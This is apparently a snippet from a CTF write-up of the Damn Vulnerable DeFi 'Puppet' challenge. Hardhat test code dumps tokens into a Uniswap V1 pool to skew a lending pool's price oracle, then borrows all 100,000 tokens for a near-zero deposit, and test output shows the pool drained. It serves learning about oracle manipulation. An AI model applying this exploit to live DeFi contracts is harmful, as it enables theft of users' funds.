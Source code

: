 ```tsx
  await this.token.connect(attacker).approve(
      this.uniswapExchange.address,
      ethers.utils.parseEther("990")
  );

  await this.uniswapExchange.connect(attacker).tokenToEthTransferInput(
      ethers.utils.parseEther("990"), // tokens_sold
      ethers.utils.parseEther("1"),   // min_eth
      (await ethers.provider.getBlock('latest')).timestamp * 2, attacker.address  // deadline
  );

  let _oraclePrice = ethers.BigNumber.from(
      await this.lendingPool.calculateDepositRequired(ethers.utils.parseEther("1"))
  );
  let muOraclePrice = _oraclePrice.mul(100000).add(1);

  await this.lendingPool.connect(attacker).borrow(ethers.utils.parseEther("100000"), { value: muOraclePrice });

  _curInfo("After exploit");

});
```

```tsx
yarn run v1.22.19
$ yarn hardhat test test/puppet/puppet.challenge.js
$ /Users/zer0luck/ctf/wargame/blockchain/defi-wargame/node_modules/.bin/hardhat test test/puppet/puppet.challenge.js
(node:27635) [DEP0147] DeprecationWarning: In future versions of Node.js, fs.rmdir(path, { recursive: true }) will be removed. Use fs.rm(path, { recursive: true }) instead
(Use `node --trace-deprecation ...` to show where the warning was created)

  [Challenge] Puppet

Initial

[+] Oracle Calc Deposit Required
2
[+] Attacker ETH-DVT Pair Balance
24.999941720374401652
1000
[+] LendingPool ETH-DVT Pair Balance
0
100000
[+] Uniswap Exchange ETH-DVT Pair Balance
0.100297884717611306
1000

After exploit

[+] Oracle Calc Deposit Required
    ✓ Exploit (50ms)
0.000200595769435222
[+] Attacker ETH-DVT Pair Balance
14.839905722874661761
100010
[+] LendingPool ETH-DVT Pair Balance
20.0595769435222
0
[+] Uniswap Exchange ETH-DVT Pair Balance
0.100297884717611306
1000

```
